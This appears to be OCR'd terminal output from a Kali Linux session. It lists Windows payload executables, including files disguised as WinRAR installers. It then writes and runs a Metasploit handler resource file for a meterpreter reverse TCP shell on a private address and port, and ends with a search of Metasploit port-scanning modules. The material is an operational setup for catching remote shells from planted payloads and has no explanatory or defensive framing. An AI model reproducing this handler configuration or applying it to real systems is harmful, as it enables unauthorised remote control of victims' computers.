 ```
┌──(root㉿kali)-[~/payloads/Windows_Payloads]
└─# ls
encodedx86.exe  payloadx64.exe  payloadx86.exe  winrar.exe  winrar-new.exe
```

```
┌──(root㉿kali)-[~/payloads/Windows_Payloads]
└─# vim handler.rc
```

```
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.248.148
set LPORT 1234
run
```

```
┌──(root㉿kali)-[~/payloads/Windows_Payloads]
└─# msfconsole -r handler.rc
[*] Processing handler.rc for ERB directives.
resource (handler.rc)> use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (handler.rc)> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
resource (handler.rc)> set LHOST 192.168.248.148
LHOST => 192.168.248.148
resource (handler.rc)> set LPORT 1234
LPORT => 1234
resource (handler.rc)> run
[*] Started reverse TCP handler on 192.168.248.148:1234 

```

```
┌──(root㉿kali)-[~/payloads/Windows_Payloads]
└─# msfconsole -q           
msf6 > search portscan

Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  auxiliary/scanner/portscan/ftpbounce                               normal  No     FTP Bounce Port Scanner
   1  auxiliary/scanner/natpmp/natpmp_portscan                           normal  No     NAT-PMP External Port Scanner
   2  auxiliary/scanner/sap/sap_router_portscanner                       normal  No     SAPRouter Port Scanner
   3  auxiliary/scanner/portscan/xmas                                    normal  No     TCP "XMas" Port Scanner
   4  auxiliary/scanner/portscan/ack                                     normal  No     TCP ACK Firewall Scanner
   5  auxiliary/scanner/portscan/tcp                                     normal  No     TCP Port Scanner
   6  auxiliary/scanner/portscan/syn                                     normal  No     TCP SYN Port Scanner
   7  auxiliary/scanner/http/wordpress_pingback_access                   normal  No     Wordpress Pingback Locator


Interact with a module by name or index. For example info 7, use 7 or use auxiliary/scanner/http/wordpress_pingback_access

```
